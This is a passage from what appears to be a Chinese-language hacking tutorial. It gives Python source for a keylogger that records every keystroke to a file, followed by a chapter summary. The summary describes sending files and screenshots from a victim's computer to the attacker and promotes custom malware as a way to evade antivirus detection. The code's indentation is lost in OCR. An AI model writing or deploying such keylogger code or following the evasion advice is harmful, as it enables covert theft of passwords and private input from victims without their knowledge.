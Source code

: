     file = open(filename, "w")

    def onPress(key):

    print(str(key))

    stroke = str(key).replace("'", "")

    if str(key) == "Key.space":

    file.write(" ")

    elif str(key) == "Key.enter":

    file.write("\n")

    elif str(key) == "Key.esc":

    file.write(" ")

    elif str(key) == "Key.backspace":

    file.seek(file.tell()-1, os.SEEK_SET)

    file.write("")

    else:

    file.write(stroke)

    def onRelease(key):

    if str(key) == 'Key.esc':

    file.close()

    sys.exit(0)

    if __name__ == "__main__":

    with keyboard.Listener(on_press=onPress, on_release=onRelease) as listener:

    listener.join()

在这一部分，我们学到了如何部署一个简单的键盘记录器。以此为基础，你可以编写一个更为高级的键盘记录器。

# 总结

在这一章中，我们学到了如何为我们的基础恶意软件添加高级功能。首先，我们添加了受害者到客户端的文件传输支持，接着我们添加了其他功能，如从受害者的计算机截屏并将其发送回黑客。最后，我们编写了自己的键盘记录器。每天，成千上万的恶意软件被编写出来，防病毒程序尝试跟上这些软件的检测进度。编写你自己的恶意软件的优势在于，它不容易被检测程序发现，因为它是你自己编写的，还不存在于防病毒数据库中。这为你提供了更成功的攻击机会。使用我们在本章开发的工具，你将理解如何构建更高级的恶意软件，并且你可以根据需要为它添加更多功能。通过编写自定义恶意软件所获得的技能将为你提供更多隐秘攻击的机会，并减少防病毒程序的检测。

在下一章，我们将看到如何将我们的代码打包成一个独立的可执行文件，并如何将其用于黑客攻击。下一章见！
